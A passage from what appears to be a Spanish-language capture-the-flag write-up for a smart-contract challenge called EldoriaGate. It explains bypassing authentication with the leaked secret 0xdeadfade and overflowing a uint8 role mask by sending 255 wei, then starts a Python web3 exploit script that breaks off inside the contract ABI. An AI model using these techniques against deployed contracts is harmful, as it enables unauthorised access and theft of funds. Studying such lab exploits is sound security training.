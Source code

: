 En la función `authenticate`, la comparación toma solo los **4 bytes** más significativos del valor pasado.

- Basta con pasar directamente el secreto extraído (`0xdeadfade` en este caso) para pasar la validación.
- Esto nos otorga el estado de **authenticated = true**.

---

### 2.3 Manipulación del `rolesBitMask`

El contrato realiza la operación:

```solidity
roles = defaultRolesMask + _contribution;
```

- `defaultRolesMask` es 1.
- Enviamos **255 wei** exactos en la transacción.

Esto genera: `1 + 255 = 256`, pero como `roles` es un `uint8`, provoca:

```
256 % 256 = 0
```

Dejando `rolesBitMask = 0`.

---

### 2.4 Cumpliendo la condición de usurper

La función clave es:

```solidity
bool isUsurper = authenticated && (rolesBitMask == 0);
```

Dado que:
- `authenticated == true`
- `rolesBitMask == 0`

La condición se cumple, convirtiéndonos en **usurper**.

---

## 3. Script utilizado

```python
from web3 import Web3
import json

# 1. Conectar a la red
provider_url = "RPC_PROVIDER_URL"
w3 = Web3(Web3.HTTPProvider(provider_url))

if not w3.is_connected():
    raise Exception("No se pudo conectar al nodo. Verifica la URL del proveedor.")

# 2. Configurar la cuenta del jugador usando su private key
player_private_key = "PLAYER_PRIVATE_KEY"
player_account = w3.eth.account.from_key(player_private_key)
player_address = player_account.address
print("Cuenta del jugador:", player_address)

# 3. ABI del contrato objetivo (EldoriaGate) con funciones y eventos necesarios
target_abi = [
    {
        "inputs": [
            {"internalType": "bytes4", "name": "passphrase", "type": "bytes4"}
```